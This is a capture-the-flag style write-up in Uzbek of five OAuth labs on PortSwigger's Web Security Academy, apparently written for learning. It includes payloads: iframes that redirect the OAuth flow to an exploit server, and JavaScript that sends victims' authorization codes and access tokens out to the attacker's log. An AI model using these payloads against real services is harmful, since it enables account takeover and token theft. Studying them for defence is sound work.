OAuth 2.0 - ilovaga foydalanuvchining parolini bermasdan, uning ma'lumotlariga yoki akkauntiga kirish huquqini berish uchun ishlatiladigan authorization protokoli.
OAuth jarayonida asosiy qismlar:
Client - foydalanuvchi ma'lumotiga kirishni xohlayotgan ilova. 
Resource Owner - foydalanuvchi. 
Authorization Server - login va ruxsatni boshqaradi.
Resource Server - foydalanuvchi ma'lumotlarini saqlaydi.
Access Token - berilgan ruxsatni ifodalovchi token.

OAuth authentication'da foydalanuvchi masalan "Log in with social media" orqali login qiladi. OAuth server foydalanuvchini tasdiqlaydi va client'ga access token beradi. Client shu token orqali foydalanuvchi ma'lumotlarini olib, uni tizimga kiritadi.

# Lab 1 - Authentication bypass via OAuth implicit flow
OAuth authentication mexanizmida email qiymati yetarlicha tekshirilmagani sababli Authentication Bypass amalga oshirildi.
My account - Log in with social media orqali OAuth login qilindi va wiener:peter credentials bilan muvaffaqiyatli autentifikatsiya qilindi.
Keyin Burp Suite HTTP history orqali OAuth requestlaridan `POST /authenticate requesti` topildi. 
Request Repeaterga yuborildi va email manzili `carlos@carlos-montoya.net` ga o'zgartirildi.



Request browser orqali ochildi va Carlos akkauntiga kirish bajarildi.



# Lab 2 - Flawed CSRF Protection

OAuth linking jarayonida state parametri yo'qligi uchun victim akkauntiga attackerning social media profili bog'landi.
Avvalo blog saytiga oddiy login orqali kirildi va Attach a social profile funksiyasi orqali social media akkaunt bog'landi.
Burp Suite HTTP Historyda OAuth requestlari tekshirildi. `GET /auth?client_id=...` requestida: `edirect_uri=/oauth-linking` mavjudligi va state parametri yo'qligi aniqlandi.
Keyin `GET /oauth-linking?code=...` requesti ushlanib, URL nusxalab request Drop qilindi.



Exploit Serverdan olingan URL iframe ichiga joylashtirildi va exploit yuborildi.
```
<iframe src="https://0a59008c0454763e80ec030a006e00a9.web-security-academy.net/oauth-linking?code=6ZeWdLjCWRQU48YOOnfR41_t428-rchk00X0tVvcnKw"></iframe>
```


OAuth linking bajarildii va admin akkauntiga social media orqali login qilinib carlos o'chirildi.



# Lab 3 - Leaking Authorization Codes and Access Tokens

Noto'g'ri redirect_uri validatsiyasidan foydalanib, victimning authorization codeini olindi va admin akkauntiga kirildi.
OAuth authorization request Burp Suite orqali Repeaterga yuborildi.
redirect_uri qiymati exploit server manziliga o'zgartirildi va server requestni qabul qildi.
Exploit Serverda iframe yaratildi:
```
<iframe src="https://oauth-0aaf00a20498867d81f5414c023300c5.oauth-server.net/auth?client_id=p1w1tdy7np5cxt404rlps&redirect_uri=https://exploit-0a580005046d86a081de423d016000da.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```
Exploit victimga yuborilgandan keyin Access Logda authorization code olindi:



Olingan code blog saytining /oauth-callback ga yuborildi:



OAuth flow bajarildi va admin akkauntiga kirilib carlos akkaunti o'chirildi.

# Lab -4 - Stealing OAuth Access Tokens via an Open Redirect

OAuth redirect_uri validatsiyasidagi path traversal va blogdagi open redirect zaifliklarini birlashtirib, victimning access tokeni olindi.
Avvalo OAuth login flow tahlil qilindi va redirect_uri parametriga /../ qo'shish mumkinligi aniqlandi.
Keyin blogdagi `/post/next?path=` endpointi Open Redirect ekanligi aniqlandi.
OAuth request ushbu endpoint orqali exploit serverga yo'naltirildi:
```/oauth-callback/../post/next?path=https://exploit-server/exploit```
Exploit serverda access tokenni URL fragmentidan olib, query parameter sifatida logga yuboruvchi JavaScript ishlatildi:
```
<script>
window.location = '/?' + document.location.hash.substr(1)
</script>
```


Exploit victimga yuborilgandan so'ng access token exploit server Access logida olindi.
Olingan token /me endpointiga Authorization: Bearer header orqali yuborildi va victim ma'lumotlari, olindi.



# Lab 5 Stealing OAuth Access Tokens via a Proxy Page

`redirect_uri`dagi directory traversal va xavfsiz bo'lmagan `postMessage()` orqali victimning OAuth access tokenini oldik.
OAuth flow tahlil qilindi va `redirect_uri` orqali directory traversal qilish mumkinligi aniqlandi.



Keyin `/post/comment/comment-form` sahifasi tekshirildi. Sahifa window.location.href qiymatini `postMessage()` orqali parent window ga yuborishi va message uchun `*` origin ishlatishi aniqlandi.

Exploit Server da OAuth flow comment formga yo'naltirildi va tokenni message orqali olish uchun quyidagi script ishlatildi:
```
iframe src="https://oauth-0aca00e303cb623f839ea9190235005b.oauth-server.net/auth?client_id=h4v02oln4et9su8glvyrn&redirect_uri=https://0ae70000039b62298343abb200fc00bf.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1816666973&scope=openid%20profile%20email
"></iframe>
<script>
window.addEventListener('message', function(e) {
    fetch("/" + encodeURIComponent(e.data.data))
}, false)
</script>
```
Exploit yuborilgandan keyin access token Access Log orqali olindi.



Olingan token GET /me requestiga qo'yildi va Administrator malumotlari olindi.




